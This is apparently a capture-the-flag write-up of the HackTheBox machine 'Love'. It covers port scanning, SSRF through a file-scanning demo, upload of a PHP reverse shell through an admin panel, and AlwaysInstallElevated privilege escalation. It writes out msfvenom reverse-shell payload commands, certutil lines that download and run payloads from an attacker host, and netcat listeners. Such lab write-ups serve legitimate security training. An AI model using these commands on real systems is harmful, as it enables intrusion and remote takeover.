High-Level Information Link to heading
Machine Name: Love
IP Address: 10.10.10.239
Difficulty: Easy
Summary: HackTheBox’s Love was a straightforward box that required an understanding of how to perform validation against untrusted user input into web applications, perform server-side request forgery, and exploit a misconfiguration of user privileges in order to install software and run arbitrary commands as NT AUTHORITY\SYSTEM.
Tools Used: Nmap, Gobuster, msfvenom, certutil, winPEAS
Initial Foothold Link to heading
As always, I began with an Nmap scan:
# Nmap 7.91 scan initiated Fri Jul 9 05:50:44 2021 as: nmap -sC -sV -p- -oA nmap 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.097s latency).
Not shown: 65516 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql?
| fingerprint-strings:
| DNSStatusRequestTCP, HTTPOptions, Help, JavaRMI, LDAPSearchReq, NCP, RTSPRequest, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, X11Probe, oracle-tns:
|_ Host '10.10.14.4' is not allowed to connect to this MariaDB server
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp open unknown
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after: 2024-04-10T14:39:19
|_ssl-date: 2021-07-09T06:36:10+00:00; +33m08s from scanner time.
| tls-alpn:
|_ http/1.1
7680/tcp open pando-pub?
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/9%Time=60E7E5F1%P=x86_64-pc-linux-gnu%r(HTT
SF:POptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPReq
SF:uest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRe
SF:questTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCook
SF:ie,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionReq
SF:,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\
SF:x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,49,"E\0\0\x
SF:01\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20con
SF:nect\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x01
SF:\xffj\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20conne
SF:ct\x20to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj
SF:\x04Host\x20'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x2
SF:0to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xffj\x04Host\x20
SF:'10\.10\.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\
SF:x20MariaDB\x20server")%r(JavaRMI,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\
SF:.14\.4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Maria
SF:DB\x20server")%r(WMSRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.
SF:4'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x2
SF:0server")%r(oracle-tns,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.4'\x2
SF:0is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20serv
SF:er");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h18m09s, deviation: 3h30m02s, median: 33m08s
| smb-os-discovery:
| OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: Love
| NetBIOS computer name: LOVE\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2021-07-08T23:35:57-07:00
| smb-security-mode:
| account_used:
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-07-09T06:35:55
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 9 06:03:03 2021 -- 1 IP address (1 host up) scanned in 739.20 seconds
In addition to that, I ran a gobuster scan against the main web page at port 80:
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.10.239
[+] Method: GET
[+] Threads: 100
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2021/07/09 06:01:06 Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/Images (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/plugins (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/dist (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/licenses (Status: 403) [Size: 421]
/examples (Status: 503) [Size: 402]
/IMAGES (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]
/%20 (Status: 403) [Size: 302]
/Admin (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]
/*checkout* (Status: 403) [Size: 302]
/Plugins (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/]
/phpmyadmin (Status: 403) [Size: 302]
/webalizer (Status: 403) [Size: 302]
/*docroot* (Status: 403) [Size: 302]
/* (Status: 403) [Size: 302]
/con (Status: 403) [Size: 302]
/http%3A (Status: 403) [Size: 302]
/Includes (Status: 301) [Size: 340] [--> http://10.10.10.239/Includes/]
/**http%3a (Status: 403) [Size: 302]
/*http%3A (Status: 403) [Size: 302]
/aux (Status: 403) [Size: 302]
/Dist (Status: 301) [Size: 336] [--> http://10.10.10.239/Dist/]
/**http%3A (Status: 403) [Size: 302]
/%C0 (Status: 403) [Size: 302]
/server-status (Status: 403) [Size: 421]
/%3FRID%3D2671 (Status: 403) [Size: 302]
/devinmoore* (Status: 403) [Size: 302]
/200109* (Status: 403) [Size: 302]
/*sa_ (Status: 403) [Size: 302]
/*dc_ (Status: 403) [Size: 302]
/%D8 (Status: 403) [Size: 302]
/%CE (Status: 403) [Size: 302]
/%CF (Status: 403) [Size: 302]
/%CD (Status: 403) [Size: 302]
/%CC (Status: 403) [Size: 302]
/%CA (Status: 403) [Size: 302]
/%CB (Status: 403) [Size: 302]
/%D6 (Status: 403) [Size: 302]
/%D0 (Status: 403) [Size: 302]
/%D1 (Status: 403) [Size: 302]
/%D4 (Status: 403) [Size: 302]
/%D3 (Status: 403) [Size: 302]
/%D7 (Status: 403) [Size: 302]
/%D5 (Status: 403) [Size: 302]
/%D2 (Status: 403) [Size: 302]
/%C9 (Status: 403) [Size: 302]
/%C1 (Status: 403) [Size: 302]
/%C8 (Status: 403) [Size: 302]
/%C6 (Status: 403) [Size: 302]
/%C3 (Status: 403) [Size: 302]
/%C5 (Status: 403) [Size: 302]
/%C7 (Status: 403) [Size: 302]
/%C2 (Status: 403) [Size: 302]
/%C4 (Status: 403) [Size: 302]
/%D9 (Status: 403) [Size: 302]
/%DD (Status: 403) [Size: 302]
/%DF (Status: 403) [Size: 302]
/%DE (Status: 403) [Size: 302]
/%DB (Status: 403) [Size: 302]
/login%3f (Status: 403) [Size: 302]
/%22julie%20roehm%22 (Status: 403) [Size: 302]
/%22james%20kim%22 (Status: 403) [Size: 302]
/%22britney%20spears%22 (Status: 403) [Size: 302]
===============================================================
2021/07/09 06:05:24 Finished
===============================================================
Most of the open ports and services identified in the scan led to nothing useful, however one particular thing stood out. A subdomain, staging.love.htb, was specifically listed in the SSL certificate on port 443. Given that visiting the normal site generates a 403 error both when using https://10.10.10.239 and https://love.htb, I decided to add staging.love.htb to the /etc/hosts file and enumerate that. Worth noting that you have to visit the website on port 80 via HTTP, not 443 via HTTPS.

On the website there is a demo for the file scanning tool:

The first thing to check for a service like this is what kind of validation is being performed. I tested that by trying to read the Windows host file on the remote machine:
 
Given that it works with local files and actually renders the file, I decided to try to use it as a proxy to bypass the 403 errors I got when trying to visit the sites on ports 443 and 5000:

While port 443 proved unfruitful, I was successfully able to perform an SSRF attack against port 5000:
 
Those credentials allowed me to gain administrative access to the voting system admin panel at 10.10.10.239/admin/:
 
One thing that stood out on the admin panel is that it was possible to change the user’s image. From the gobuster scan I knew there was an /images/ folder. If inputs were not properly sanitized for the image upload I could potentially upload a reverse shell and execute it to get a shell. I uploaded a test file to see if that was the case:
 
Success! Now to test if it’s publicly viewable:

With that knowledge, I felt pretty comfortable that I could get a reverse shell. I used msfvenom to generate the payload, uploaded it, set up a netcat listener, and got a shell:
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p php/reverse_php LHOST=10.10.14.6 LPORT=4444 -f raw > reverse.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3038 bytes

┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444
[sudo] password for kali:
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50988
whoami
love\phoebe
Privilege Escalation Link to heading
Now, even though I had a shell at this point, the shell was absolutely awful. Worst of all was that it disconnected every couple of minutes, making proper enumeration a real pain. To solve that I generated an x64 msfvenom payload, downloaded it to the box using certutil, and executed it to get a more stable shell.
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4445 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50989
certutil.exe -urlcache -f http://10.10.14.6/shell.exe shell.exe
**** Online ****
CertUtil: -URLCache command completed successfully.
dir
Volume in drive C has no label.
Volume Serial Number is 56DE-BA30
Directory of C:\xampp\htdocs\omrs\images
08/07/2021 12:14 PM <DIR> .
08/07/2021 12:14 PM <DIR> ..
08/06/2021 07:48 PM 159,744 admin.msi
05/18/2018 08:10 AM 4,240 facebook-profile-image.jpeg
04/12/2021 03:53 PM 0 index.html.txt
01/27/2021 12:08 AM 844 index.jpeg
08/06/2021 07:33 PM 1,919,488 privilege.exe
08/24/2017 04:00 AM 26,644 profile.jpg
08/07/2021 12:10 PM 3,038 reverse.php
08/06/2021 07:06 PM 7,168 reverse1.exe
08/07/2021 12:14 PM 7,168 shell.exe
08/07/2021 12:04 PM 32 test.php
10 File(s) 2,128,366 bytes
2 Dir(s) 3,880,849,408 bytes free
.\shell.exe
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
10.10.10.239 - - [07/Aug/2021 14:48:07] "GET /shell.exe HTTP/1.1" 200 -
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445
[sudo] password for kali:
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
C:\xampp\htdocs\omrs\images>
From there, I was able to grab the user flag, download winPEAS from my machine, and run it. Within its output I found my path to root - the AlwaysInstallElevated privilege. This allows any user, regardless of what privileges they normally have, to install software as an administrator. This is a dangerous configuration, as the .msi files used to install programs can also provide commands to run during installation, which in this case would be run as a system-level user.

To generate the malicious payload I once again utilized msfvenom. Uploading it was, again, as simple as running certutil. I then proceeded to run the .msi and wait for my not-so-hard-earned shell:
┌──(kali@kali)-[~/htb/love/blog]
└─$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4446 --encoder x64/xor --iterations 9 --format msi --out system.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: system.msi
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445
[sudo] password for kali:
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
C:\xampp\htdocs\omrs\images>certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
